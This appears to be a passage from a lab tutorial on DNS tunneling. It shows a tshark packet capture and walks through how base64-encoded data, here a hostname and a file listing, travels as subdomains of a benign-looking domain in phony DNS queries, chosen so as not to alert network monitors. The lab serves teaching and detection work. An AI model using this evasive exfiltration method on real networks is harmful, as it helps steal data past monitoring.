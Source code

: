 ```
┌──(ccrollin㉿thinkbox)-[~/dev/dns-tunneling]
└─$ tshark -r client/captures/capture.pcapng
    1 0.000000000  172.20.20.4 → 172.20.20.5  DNS 116 Standard query response 0xbe4f A d29ya3N0YXRpb24tMQo=.mydomain.local A 172.20.20.4
    2 0.004345400  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xa30a A RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local
    3 0.004749100  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xfdba A cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local
    4 0.005361900  172.20.20.5 → 172.20.20.4  DNS 107 Standard query 0xae8b A a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local
    5 0.005519400  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xa30a A RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local A 172.20.20.4
    6 0.005753200  172.20.20.5 → 172.20.20.4  DNS 87 Standard query 0xd9a8 A bnRzLnR4dAo=.mydomain.local
    7 0.005766000  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xfdba A cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local A 172.20.20.4
    8 0.006702800  172.20.20.4 → 172.20.20.5  DNS 136 Standard query response 0xae8b A a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local A 172.20.20.4
    9 1.865723411 02:42:ac:14:14:05 → 02:42:ac:14:14:04 ARP 42 Who has 172.20.20.4? Tell 172.20.20.5
   10 1.865841611 02:42:ac:14:14:04 → 02:42:ac:14:14:05 ARP 42 172.20.20.4 is at 02:42:ac:14:14:04
   11 2.176001613 fe80::1821:ff:fe00:0 → ff02::2      ICMPv6 70 Router Solicitation from 1a:21:00:00:00:00
   12 5.055731214 02:42:ac:14:14:04 → 02:42:ac:14:14:05 ARP 42 Who has 172.20.20.5? Tell 172.20.20.4
   13 5.055741314 02:42:ac:14:14:05 → 02:42:ac:14:14:04 ARP 42 172.20.20.5 is at 02:42:ac:14:14:05
```

Lets examine the domain queries (and their responses). The lab is setup to encode the data we send across the network in base64. Like I hinted at in the introduction, more robust methods could be used (ie. encryption) to ensure only intended parties can read the data but for instructional purposes base64 offers a nice way to easily decode (but that means a sys admin sniffing packets like us could also see them...hehe) In this implementation the data is prepended as a "subdomain" to the default root domain `mydomain.local` (from our .env files) when we make our phony DNS queries.

```
d29ya3N0YXRpb24tMQo=.mydomain.local
RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local
cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local
a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local
RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh.mydomain.local
bnRzLnR4dAo=.mydomain.local
cHR1cmVzCmRuc19sb29rdXAucHkKcGFj.mydomain.local
a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l.mydomain.local
```

We can then remove the `.mydomain.local` as this is unnecessary to see the data we are transmitting. It is instead just something to not raise alarms for someone monitoring network traffic.

```
d29ya3N0YXRpb24tMQo=
RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh
cHR1cmVzCmRuc19sb29rdXAucHkKcGFj
a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l
RG9ja2VyZmlsZQpjYXB0dXJlLnNoCmNh
bnRzLnR4dAo=
cHR1cmVzCmRuc19sb29rdXAucHkKcGFj
a2V0X2NhcHR1cmUucHkKcmVxdWlyZW1l
```
